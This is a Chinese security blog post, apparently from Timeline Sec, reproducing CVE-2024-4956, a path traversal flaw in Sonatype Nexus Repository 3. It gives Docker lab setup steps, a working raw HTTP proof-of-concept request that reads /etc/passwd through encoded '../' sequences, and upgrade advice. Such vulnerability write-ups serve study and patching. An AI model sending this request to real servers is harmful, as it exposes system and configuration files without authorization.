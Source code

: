 #  CVE-2024-4956：Nexus Repository 3目录穿越漏洞   
原创 Arvin  Timeline Sec   2024-11-12 18:58  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！作者：Arvin@TimeAxis Sec本文字数：1499阅读时长：2～3mins声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
Sonatype Nexus Repository 是美国Sonatype公司的一款存储库管理器，用于存储和分发软件组件、构建工件和 Docker 容器。它支持多种包格式，与 CI/CD 工具集成，并提供安全性和合规性功能。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2024-4956**  
  
Nexus Repository仅依赖Jetty自带的方法进行请求路径的安全检查，而未进行深入的验证，导致攻击者可以利用路径穿越攻击访问文件系统上的任意位置。  
  
成功利用这一漏洞的攻击者可以读取Nexus Repository服务器上的任意文件，这可能包括配置文件、数据库备份以及其他敏感数据。此外，特定情况下如果攻击者能够进一步利用服务器上的其他配置或漏洞，可能会完全控制受影响的服务器。  
## 0x03 影响版本  
  
Sonatype Nexus Repository 3 < 3.68.1  
## 0x04 环境搭建  
  
任务调度中心【Docker方式构建】  
  
**1.拉取镜像**docker pull sonatype/nexus3:3.68.0  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaAian6aEN2gCOAwWSCriaLAnib8aczoCaswHW7aiaXFEdiagjBRjibG5G0r27INxgucOYAuIF6RNT7cQ3Q/640?wx_fmt=png&from=appmsg "")  
  
**2.持久化目录**mkdir -p /home/nexus/datachmod 777 -R /home/nexus/data  
  
**3.查看镜像**IDdocker images  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaAian6aEN2gCOAwWSCriaLAnz1yxkicDHrOZIQcnM9AibMXX2TlermzfRubGS3XAHc7u0LfDic0YicrDdA/640?wx_fmt=png&from=appmsg "")  
**4.创建nexus容器并启动**  
```
docker run -d --name nexus3 -p 8081:8081 --restart always -v /home/nexus/data:/nexus-data 镜像ID

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaAian6aEN2gCOAwWSCriaLAnB29bWuzj3Zalr2mt1LfXSdIw7tZPPEyag9L1h5UNn2A8MC6F1sicMbA/640?wx_fmt=png&from=appmsg "")  
  
访问http://yourip:8081/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaAian6aEN2gCOAwWSCriaLAnK6T7AChhfXWUy8pANX21B2DufRS4ktShrFcichOlkZ09305oicz2DzAA/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
**直接使用poc可读取到/etc/passwd：**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaAian6aEN2gCOAwWSCriaLAnicYOgL4Da1ujFa0ezqULa14X5HGZRlhYxJwpfkMeFv9DMQpcHNepG3A/640?wx_fmt=png&from=appmsg "")  
## POC：GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1Host: your-ipAccept-Encoding: gzip, deflate, brAccept: */*Accept-Language: en-US;q=0.9,en;q=0.8User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36Connection: close0x06 修复方式  
  
目前官方已有可更新版本，建议受影响用户升级至最新版本。  
  
官方文档：https://help.sonatype.com/repomanager3/download  
## 历史漏洞  
  
CVE-2024-5764   
  
CVE-2024-4956  
  
[CVE-2020-29436](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247487093&idx=1&sn=2020381c1e245bf0c97bc7bf0afaf529&chksm=90392885a74ea193cf26cfd880aa7d65e67e5b9f0f3942a435ac983df1c91472a97e1af9aad9&scene=21#wechat_redirect)  
  
  
CVE-2020-24622  
  
CVE-2020-11444  
  
[CVE-2020-10204](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247484601&idx=1&sn=8cc85b1f8313b2a72e8d7426b9407b9d&chksm=90392249a74eab5fe9d8edde2e642ec4de25ddcbf956683f2413415b3430784a12fa64bcd4bc&scene=21#wechat_redirect)  
  
  
CVE-2020-10203  
  
[CVE-2020-10199](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247484601&idx=1&sn=8cc85b1f8313b2a72e8d7426b9407b9d&chksm=90392249a74eab5fe9d8edde2e642ec4de25ddcbf956683f2413415b3430784a12fa64bcd4bc&scene=21#wechat_redirect)  
  
  
CVE-2019-7238  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群回复  
【SRC群】进入SRC-QQ交流群回复  
【新人】领取新人学习指南资料回复  
【面试】获取渗透测试常见面试题回复  
【合作】获取各类安全项目合作方式回复  
【帮会】付费加入SRC知识库学习回复  
【  
培训】  
获取TimelineSec官方培训课程详情  
  
  
视频号：搜索  
TimelineSec  
  
官方微博：[#小程序://微博/tPbUYdN9EucSD4C]()  
  
  
哔哩哔哩：  
https://space.bilibili.com/52459  
‍1903  
  
  
  
❤  
  
觉得有用就点个赞吧！  
  
欢迎评论区留言讨论～  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OkhKF2m1syrmlAus2fxnsxZBk4oIuTvAVIaL6pKgic5DEa8ynqo44GUwNML3ggkqMpbE1fiaLYvpPzeBrQJCS5bA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
